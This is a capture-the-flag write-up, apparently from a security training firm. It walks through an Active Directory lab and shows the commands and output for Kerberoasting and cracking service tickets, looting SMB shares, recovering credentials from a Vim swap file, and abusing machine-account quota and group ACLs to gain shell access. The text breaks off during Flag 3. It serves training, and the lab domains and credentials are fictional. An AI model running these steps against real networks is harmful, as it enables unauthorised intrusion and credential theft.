




View the Project on GitHub ASYNC-Security/async-security.github.io

Range Village CTF, September 2025
Last weekend, we partnered with The Range Village and Div0 to host an Active Directory lab as part of their September Meetup. The event was a great success, with close to 40 participants joining us for an evening of learning and fun!

This blog post provides an overview of the lab, including the challenges, statistics, and solutions for each flag. There are multiple solutions for some of the flags, so if you have done the lab - do look out for the alternative methods covered in this post!
- Range Village CTF, September 2025
- Flag 1: And, so it begins...
- Flag 2: Access (Un)controlled
- Flag 3: Moving Laterally
- Flag 4: Historical Scar
- Flag 5: Silver
- Flag 6: Antennae
- Flag 7: Privilege (De)escalation?
- Flag 8: Backward
- Behind the Scenes
- Summary
Challenge Overview
The lab was designed to simulate a real-world Active Directory environment, while also being beginner-friendly. There were a total of 8 flags, across 4 machines and 2 domains, with a mix of easy and challenging flags to cater to participants of all skill levels. The lab was structured to encourage collaboration and teamwork, with participants working together to solve the challenges and capture the flags.

The lab featured 2 domains: antennae.rv and backward.rv - and 4 machines: dc01.antennae.rv, sql01.antennae.rv, dc02.backward.rv and srv01.backward.rv. The following credentials were provided to all participants at the start of the event to simulate an assumed breach scenario:
User: chloe.lim@antennae.rv
Password: BZCJsopuOPgH
Solve Statistics
A total of 26 participants captured at least one flag, with only one person successfully completing the entire lab by capturing all 8 flags. The Silver challenge proved to be the most difficult, showing a sharp decline in solves - from 12 for the Historical Scar challenge down to just 4 for Silver.

Overall, the lab was a great success, with participants enjoying the challenges and learning new skills. The feedback received was overwhelmingly positive, with many participants expressing their appreciation for the opportunity to learn and collaborate in a supportive environment. We would like to extend our gratitude to Div0 and Range Village for hosting the event, and we look forward to sponsoring more events in the future!
Flag 1: And, so it begins…

Path 1: Kerberoasting
Using the given credentials for chloe.lim@antennae.rv, we can start by enumerating the antennae.rv domain and identifying users with Service Principal Names (SPNs) set.
We can achieve this using an LDAP query with NetExec’s LDAP flag, we’ll find a couple of users with SPNs set:
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(&(objectClass=user)(servicePrincipalName=*))" "samAccountName servicePrincipalName"
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
LDAP 10.5.10.10 389 DC01 [+] Response for object: CN=svc_vdi,CN=Users,DC=antennae,DC=rv
LDAP 10.5.10.10 389 DC01 sAMAccountName svc_vdi
LDAP 10.5.10.10 389 DC01 servicePrincipalName HORIZON/VirtualDesktop
LDAP 10.5.10.10 389 DC01 TERMSRV/vdi.antennae.rv
LDAP 10.5.10.10 389 DC01 HTTPS/vdi.antennae.rv
LDAP 10.5.10.10 389 DC01 HORIZON/vdi
LDAP 10.5.10.10 389 DC01 HORIZON/vdi.antennae.rv
LDAP 10.5.10.10 389 DC01 [+] Response for object: CN=svc_sql,CN=Users,DC=antennae,DC=rv
LDAP 10.5.10.10 389 DC01 sAMAccountName svc_sql
LDAP 10.5.10.10 389 DC01 servicePrincipalName MSSQLSvc/sql01.antennae.rv:1433
LDAP 10.5.10.10 389 DC01 MSSQLSvc/sql01.antennae.rv
The servicePrincipalName format generally follows the pattern of service/hostname:port or service/hostname, indicating the service type and the host it is associated with. In this case, we have two users with SPNs set: svc_vdi and svc_sql. Based on the SPNs, we can infer that svc_vdi is likely associated with a Virtual Desktop Infrastructure (VDI) service running on vdi.antennae.rv, while svc_sql is associated with a Microsoft SQL Server service running on sql01.antennae.rv on the default SQL port 1433.
We can perform a Kerberoasting attack on either of these users to obtain an encrypted service ticket for their respective services. These tickets will be encrypted with the service account’s password, which we can then attempt to crack offline.
Kerberoasting is not inherently malicious, requesting service tickets for services is an integral part of Kerberos. This technique only becomes lucrative when the service account is using a weak password.
Roasting (The Easy Way)
We can request service tickets for both users using NetExec, and write the output to a file called service_tickets.txt:
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --kerberoasting service_tickets.txt
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
LDAP 10.5.10.10 389 DC01 [*] Skipping disabled account: krbtgt
LDAP 10.5.10.10 389 DC01 [*] Total of records returned 2
LDAP 10.5.10.10 389 DC01 [*] sAMAccountName: svc_vdi, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:57.992825, lastLogon: 2025-08-28 15:17:30.758637
LDAP 10.5.10.10 389 DC01 $krb5tgs$23$*svc_vdi$ANTENNAE.RV$antennae.rv\svc_vdi*$1b38c1a87120eefcd7717394fbb96d[....snip...]dc5aa8d0085bbebc39e64c248495570f61b5e1a157
LDAP 10.5.10.10 389 DC01 [*] sAMAccountName: svc_sql, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:58.149076, lastLogon: 2025-08-30 07:37:42.373093
LDAP 10.5.10.10 389 DC01 $krb5tgs$23$*svc_sql$ANTENNAE.RV$antennae.rv\svc_sql*$a66fad26fc10f1372475[...snip...]0eace690f78af8994cc2d7338f0bbc79ee152ab5cb6
Next, we can attempt to crack these service tickets using John the Ripper with the rockyou.txt wordlist.
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15 (?)
We get a hit on one of the service tickets, after trying the password for both svc_vdi and svc_sql, we find that the cracked password tr4v15 belongs to the svc_vdi account.
~$ nxc ldap dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\svc_vdi:tr4v15
Roasting (The Hard Way)
We can explicitly request a service ticket for TERMSRV/vdi.antennae.rv using kinit and kvno, which are part of the Kerberos suite of tools. Firstly, we need to grab a Ticket Granting Ticket (TGT) for chloe.lim using kinit:
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV:
~$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV
Valid starting Expires Service principal
09/07/2025 08:45:27 09/07/2025 18:45:27 krbtgt/ANTENNAE.RV@ANTENNAE.RV
renew until 09/08/2025 08:45:27
We can then use kvno to request a service ticket for TERMSRV/vdi.antennae.rv, which will be added to our existing ticket cache:
~$ kvno TERMSRV/vdi.antennae.rv
TERMSRV/vdi.antennae.rv@ANTENNAE.RV: kvno = 2
~$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV
Valid starting Expires Service principal
09/07/2025 08:45:27 09/07/2025 18:45:27 krbtgt/ANTENNAE.RV@ANTENNAE.RV
renew until 09/08/2025 08:45:27
09/07/2025 08:46:21 09/07/2025 18:45:27 TERMSRV/vdi.antennae.rv@ANTENNAE.RV
renew until 09/08/2025 08:45:27
In order to extract the service ticket from our ticket cache, we can use describeTicket.py from the Impacket toolkit which exposes the kerberoast_from_ccache functionality:
# https://github.com/fortra/impacket/blob/master/examples/describeTicket.py#L684
def kerberoast_from_ccache(decodedTGS, spn, username, domain):
...
if decodedTGS['ticket']['enc-part']['etype'] == constants.EncryptionTypes.rc4_hmac.value:
entry = '$krb5tgs$%d$*%s$%s$%s*$%s$%s' % (
constants.EncryptionTypes.rc4_hmac.value, username, domain, spn.replace(':', '~'),
hexlify(decodedTGS['ticket']['enc-part']['cipher'][:16].asOctets()).decode(),
hexlify(decodedTGS['ticket']['enc-part']['cipher'][16:].asOctets()).decode())
In this case, the enc-part->cipher field contains the service ticket which is encrypted with the service account’s password. We can run describeTicket.py and pipe the output to john for cracking.
If you want to learn more about how Kerberos works, check out our public preview of our W200 course.
~$ describeTicket.py /tmp/krb5cc_1000
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 2
[*] Parsing credential[0]:
[*] Ticket Session Key : c6a42e5645c02296b49b5e3b26610ce07537f383ba7e26066d28c4f8af03e7f3
[*] User Name : chloe.lim
[*] User Realm : ANTENNAE.RV
[*] Service Name : krbtgt/ANTENNAE.RV
[*] Service Realm : ANTENNAE.RV
[*] Start Time : 07/09/2025 08:45:27 AM
[*] End Time : 07/09/2025 18:45:27 PM
[*] RenewTill : 08/09/2025 08:45:27 AM
[*] Flags : (0xe10000) renewable, initial, pre_authent, enc_pa_rep
[*] KeyType : aes256_cts_hmac_sha1_96
[*] Base64(key) : xqQuVkXAIpa0m147JmEM4HU384O6fiYGbSjE+K8D5/M=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : krbtgt/ANTENNAE.RV
[*] Service Realm : ANTENNAE.RV
[*] Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
[*] Parsing credential[0]:
[*] Ticket Session Key : 9ee0acdda8247fecc421ed5751706835
[*] User Name : chloe.lim
[*] User Realm : ANTENNAE.RV
[*] Service Name : TERMSRV/vdi.antennae.rv
[*] Service Realm : ANTENNAE.RV
[*] Start Time : 07/09/2025 08:46:21 AM
[*] End Time : 07/09/2025 18:45:27 PM
[*] RenewTill : 08/09/2025 08:45:27 AM
[*] Flags : (0xa10000) renewable, pre_authent, enc_pa_rep
[*] KeyType : rc4_hmac
[*] Base64(key) : nuCs3agkf+zEIe1XUXBoNQ==
[*] Kerberoast hash : $krb5tgs$23$*USER$ANTENNAE.RV$TERMSRV/vdi.antennae.rv*$f7a2c6216c08a17845806011049566b3$5[...snip...]0b6146b1e037b0fc3f81037ccc0260dd022ab44d39351b95027b1a57f400bb7f536a14a96e3e74e94ba
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : TERMSRV/vdi.antennae.rv
[*] Service Realm : ANTENNAE.RV
[*] Encryption type : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
This “Kerberoast hash” can then be piped to john, like we did before, to crack the password.
~$ describeTicket.py /tmp/krb5cc_1000 | grep 'Kerberoast hash' | awk '{print $5}' | tee service_tickets.txt
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15 (?)
1g 0:00:00:01 DONE (2025-09-07 08:55) 0.8474g/s 2630Kp/s 2630Kc/s 2630KC/s trabajadorasocial24..tr0ydawn
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Some tools may attempt to downgrade the encryption type of the service ticket to
rc4_hmacwhich may be a point of detection. Usingkinitandkvnoensures that the service ticket is requested with the service account’s actual encryption type. See: The Art of Detecting Kerberoast Attacaks.
Path 2: Cross-Forest Enumeration
Another way of obtaining the credentials for svc_vdi is through enumeration of the backward.rv domain, which has a two-way trust relationship with the antennae.rv domain.
We can identify this trust relationship by querying the dc01.antennae.rv domain controller for its trusted domains:
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(objectClass=trustedDomain)" "cn flatName trustDirection trustType"
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
LDAP 10.5.10.10 389 DC01 [+] Response for object: CN=backward.rv,CN=System,DC=antennae,DC=rv
LDAP 10.5.10.10 389 DC01 cn backward.rv
LDAP 10.5.10.10 389 DC01 trustDirection 3
LDAP 10.5.10.10 389 DC01 trustType 2
LDAP 10.5.10.10 389 DC01 flatName backward
The trustDirection attribute indicates the direction of the trust relationship:
1: One-way incoming trust2: One-way outgoing trust3: Two-way trust
The presence of a trustDirection value of 3 confirms that there is a two-way trust relationship between the antennae.rv and backward.rv domains - this means that users from either domain can access resources in the other domain.
We can verify this by attempting to authenticate to the backward.rv domain controller dc02.backward.rv using the credentials for chloe.lim@antennae.rv
~$ nxc ldap dc02.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv'
LDAP 10.5.10.12 389 DC02 [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never)
LDAP 10.5.10.12 389 DC02 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
With this trust relationship in place, we can enumerate the backward.rv domain for open and accessible shares. We’ll find that on the srv01.backward.rv machine, we have access to the antennae.rv and Public shares.
~$ nxc smb srv01.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv' --shares
SMB 10.5.10.13 445 SRV01 [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB 10.5.10.13 445 SRV01 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
SMB 10.5.10.13 445 SRV01 [*] Enumerated shares
SMB 10.5.10.13 445 SRV01 Share Permissions Remark
SMB 10.5.10.13 445 SRV01 ----- ----------- ------
SMB 10.5.10.13 445 SRV01 ADMIN$ Remote Admin
SMB 10.5.10.13 445 SRV01 antennae.rv READ Shared folder for users in antennae.rv
SMB 10.5.10.13 445 SRV01 backward.rv Shared folder for users in backward.rv
SMB 10.5.10.13 445 SRV01 C$ Default share
SMB 10.5.10.13 445 SRV01 IPC$ READ Remote IPC
SMB 10.5.10.13 445 SRV01 Public READ,WRITE Shared folder for users in both antennae.rv and backward.rv
We can loot the Public share, and find a file called note.txt that contains the credentials for the svc_vdi account:
~$ smbclient.py 'chloe.lim':'BZCJsopuOPgH'@srv01.backward.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# use Public
# ls
drw-rw-rw- 0 Sun Sep 7 09:03:04 2025 .
drw-rw-rw- 0 Sat Aug 30 04:36:43 2025 ..
-rw-rw-rw- 0 Sat Aug 30 04:36:19 2025 .empty
-rw-rw-rw- 181 Sat Aug 30 04:36:19 2025 note.txt
-rw-rw-rw- 21 Sat Aug 30 04:36:19 2025 README.md
# cat note.txt
@Jolene, here are the creds for svc_vdi as you asked for earlier.
Not sure why you need them anymore cuz our VDI project got canned last week, but whatever.
svc_vdi
tr4v15
Looting Shares
After obtaining access to svc_vdi, we can use these credentials to re-enumerate shares on dc01.antennae.rv to look for any interesting files. We’ll find that we have read access to the service-home share.
~$ nxc smb dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15' --shares
SMB 10.5.10.10 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB 10.5.10.10 445 DC01 [+] antennae.rv\svc_vdi:tr4v15
SMB 10.5.10.10 445 DC01 [*] Enumerated shares
SMB 10.5.10.10 445 DC01 Share Permissions Remark
SMB 10.5.10.10 445 DC01 ----- ----------- ------
SMB 10.5.10.10 445 DC01 ADMIN$ Remote Admin
SMB 10.5.10.10 445 DC01 C$ Default share
SMB 10.5.10.10 445 DC01 IPC$ READ Remote IPC
SMB 10.5.10.10 445 DC01 NETLOGON READ Logon server share
SMB 10.5.10.10 445 DC01 service-home READ Shared folder for services provisioned in antennae.rv
SMB 10.5.10.10 445 DC01 SYSVOL READ Logon server share
In this share, we’ll find flag1.txt which contains the first flag:
~$ smbclient.py 'svc_vdi':'tr4v15'@dc01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
uType help for list of commands
# use service-home
# ls
drw-rw-rw- 0 Sat Aug 30 08:15:51 2025 .
drw-rw-rw- 0 Sat Aug 30 04:36:57 2025 ..
-rw-rw-rw- 78 Sat Aug 30 04:37:04 2025 .env.sample.horizon
-rw-rw-rw- 12289 Sat Aug 30 04:37:04 2025 .env.swp
-rw-rw-rw- 1284 Sat Aug 30 04:37:04 2025 Connect-Horizon.ps1
-rw-rw-rw- 925 Sat Aug 30 04:37:04 2025 Deploy-DesktopPool.ps1
-rw-rw-rw- 62 Sat Aug 30 08:15:51 2025 flag1.txt
# cat flag1.txt
RV{roAStIn6_1IkE_n0_7OMOrroW_e8cac89a3efd99b6c843857ac8faa276}
#
Flag 2: Access (Un)controlled

Based on the description of the challenge, we’ll know that the next flag requires us to obtain local access to the sql01.antennae.rv machine. This need not be administrative access, as it is mentioned that the flag can be read by all local users.
In the service-home share, we find a .env.swp file, which is a Vim swap file. A quick google search reveals that: Swap files store changes you've made to the buffer. If Vim or your computer crashes, they allow you to recover those changes.. You may also find that after opening a file in vim, a .<filename>.swp file is created in the same directory.
We can “recover” the contents of this swap file using the vim -r command, and find that it contains credentials for the jolene.ong user.
~$ vim -r .env.swp
:w .env.swp.recv
~$ cat .env.swp.recv
HORIZON_SERVER=broker.antennae.rv
HORIZON_USER=jolene.ong
HORIZON_PASS=BoXALrqvqPd3
We can verify that these credentials are valid by attempting to authenticate to the antennae.rv domain controller dc01.antennae.rv:
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\jolene.ong:BoXALrqvqPd3
At this point, we can run a bloodhound collector to begin mapping out the Active Directory environment. We can use bloodhound-ce-python for this.
Note that this could have been done earlier as well, but was not necessary for capturing the first flag.
~$ bloodhound-ce-python -u 'jolene.ong' -p 'BoXALrqvqPd3' -d 'antennae.rv' -c 'All' -ns '10.5.10.10' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: antennae.rv
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 22 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SQL01.antennae.rv
INFO: Querying computer: DC01.antennae.rv
INFO: Done in 00M 04S
INFO: Compressing output into 20250907091433_bloodhound.zip
Following the BloodHound Documentation, we can ingest the resulting zip file into BloodHound and begin analyzing the data.

Using BloodHound’s path-finding feature, we can identify that jolene.ong is a member of the Development group which has some Access Control Entries (ACEs) on the senior-developers and intern-developers group.
Identifying Privileged Groups
We can take the “easy” route and simply abuse both of these ACEs and add ourselves to both groups, which will ultimately lead us in the right direction. However, you may want to take a more methodical approach and identify which of these groups is more “privileged”.
Firstly, we can use jolene.ong’s credentials to re-enumerate the open shares in sql01.antennae.rv, and find that we have read access to the Tools share.
~$ nxc smb sql01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' --shares
SMB 10.5.10.11 445 SQL01 [*] Windows Server 2022 Build 20348 x64 (name:SQL01) (domain:antennae.rv) (signing:True) (SMBv1:False)
SMB 10.5.10.11 445 SQL01 [+] antennae.rv\jolene.ong:BoXALrqvqPd3
SMB 10.5.10.11 445 SQL01 [*] Enumerated shares
SMB 10.5.10.11 445 SQL01 Share Permissions Remark
SMB 10.5.10.11 445 SQL01 ----- ----------- ------
SMB 10.5.10.11 445 SQL01 ADMIN$ Remote Admin
SMB 10.5.10.11 445 SQL01 C$ Default share
SMB 10.5.10.11 445 SQL01 IPC$ READ Remote IPC
SMB 10.5.10.11 445 SQL01 Tools READ Shared folder for tools
Inside the Tools share, we find a file called test-connection.ps1 which contains a script that attempts to connect to the SSH service on sql01.antennae.rv:
~$ smbclient.py 'jolene.ong':'BoXALrqvqPd3'@sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# use tools
# ls
drw-rw-rw- 0 Sat Aug 30 04:37:19 2025 .
drw-rw-rw- 0 Sat Aug 30 04:37:13 2025 ..
-rw-rw-rw- 854 Sat Aug 30 04:37:19 2025 test-connection.ps1
# cat test-connection.ps1
Import-Module Posh-SSH
$user = 'danish.hakim'
$host = 'sql01.antennae.rv'
$port = 22
$securePass = Read-Host "Enter SSH password for $user@$host" -AsSecureString
$creds = New-Object System.Management.Automation.PSCredential($user, $securePass)
try {
$session = New-SSHSession `
-ComputerName $host `
-Port $port `
-Credential $creds `
-AcceptKey:$true
if ($session -and $session.SessionId) {
$result = Invoke-SSHCommand -SessionId $session.SessionId -Command 'hostname'
$result.Output.Trim()
Remove-SSHSession -SessionId $session.SessionId | Out-Null
Write-Host "goodbye" -ForegroundColor Green
}
else {
Write-Host "err: failed to establish SSH session." -ForegroundColor Red
}
}
catch {
Write-Host "err: $($_.Exception.Message)" -ForegroundColor Red
}
#
In the script, we see that the danish.hakim user seems to be the intended user for connecting to the SSH service. On BloodHound, we’ll find that the danish.hakim user is a member of the senior-developers group.

Based on this, we can reasonably conclude that the senior-developers group may have SSH access to sql01.antennae.rv.
MachineAccountQuota
The GenericAll privilege that jolene.ong has on the senior-developers group allows her to add herself to that group, but this may be disruptive and not an attack that you want to perform in a real-world scenario without proper authorization. Instead, we can use the MachineAccountQuota to create a new computer account in the antennae.rv domain, and then add that computer account to the senior-developers group.
The MachineAccountQuota value can be enumerated using the maq module from nxc:
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M maq
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\jolene.ong:BoXALrqvqPd3
MAQ 10.5.10.10 389 DC01 [*] Getting the MachineAccountQuota
MAQ 10.5.10.10 389 DC01 MachineAccountQuota: 10
The default value for MachineAccountQuota is 10, which means that any authenticated user can create up to 10 computer accounts in the domain. We can use the nxc tool to create a new computer account called gatari$:
~$ nxc smb dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd'
SMB 10.5.10.10 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB 10.5.10.10 445 DC01 [+] antennae.rv\jolene.ong:BoXALrqvqPd3
ADD-COMP... 10.5.10.10 445 DC01 Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
Abusing GenericAll on Group
This new computer account can then be used to authenticate to the antennae.rv domain controller dc01.antennae.rv:
~$ nxc ldap dc01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\gatari$:P@ssw0rd
With this computer account added, we can now use jolene.ong to add gatari$ to the senior-developers group. The bloodyAD tool can be used for this purpose:
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'gatari$'
[+] gatari$ added to senior-developers
With this done, we can now authenticate to the SSH service on sql01.antennae.rv using the gatari$ computer account:
~$ nxc ssh sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
SSH 10.5.10.11 22 sql01.antennae.rv [*] SSH-2.0-OpenSSH_for_Windows_9.8 Win32-OpenSSH-GitHub
SSH 10.5.10.11 22 sql01.antennae.rv [+] gatari$:P@ssw0rd Windows - Shell access!
Do note that WinRM or RDP could have also been used instead of SSH:
~$ nxc winrm sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
WINRM 10.5.10.11 5985 SQL01 [*] Windows Server 2022 Build 20348 (name:SQL01) (domain:antennae.rv)
WINRM 10.5.10.11 5985 SQL01 [+] antennae.rv\gatari$:P@ssw0rd (Pwn3d!)
~$ nxc rdp sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
RDP 10.5.10.11 3389 SQL01 [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL01) (domain:antennae.rv) (nla:True)
RDP 10.5.10.11 3389 SQL01 [+] antennae.rv\gatari$:P@ssw0rd
We can now connect to the sql01.antennae.rv machine and read the flag2.txt file:
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@sql01.antennae.rv
PS C:\> cat flag2.txt
RV{d@ngER0US_4cc3$S_C0n7Rol_1!sts!_6daa59eff6fd00657e9fb802c0078a4c}
Flag 3: Moving Laterally

After obtaining local access to sql01.antennae.rv, we can begin enumerating the machine for any interesting files or credentials. After some searching (or running tree /f /a), we’ll find a file at C:\Users\Public\test.ps1 that contains credentials for wei.jie.tan:
PS C:\Users> cat C:\Users\Public\test.ps1
$username = 'wei.jie.tan'
$password = 'klDCzcAiLGc2'
$securePass = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential($username, $securePass)
$scriptBlock = {
$targetFile = 'C:\temp.txt'
$timestamp = (Get-Date).ToString('yyyy-MM-dd HH:mm:ss')
"test => $timestamp" |
Out-File -FilePath $targetFile -Encoding UTF8 -Append
}
Start-Process -FilePath pwsh -ArgumentList '-NoProfile','-Command',(
[ScriptBlock]::Create($scriptBlock.ToString())
) -Credential $creds -Wait -WindowStyle Hidden
In BloodHound, we’ll see that wei.jie.tan is also a member of the senior-developers group - which means that we can use this user to SSH into sql01.antennae.rv as well.

We can use these credentials to authenticate to the SSH service on sql01.antennae.rv, and grab the flag3.txt file:
~$ sshpass -p 'klDCzcAiLGc2' ssh 'wei.jie.tan'@sql01.antennae.rv
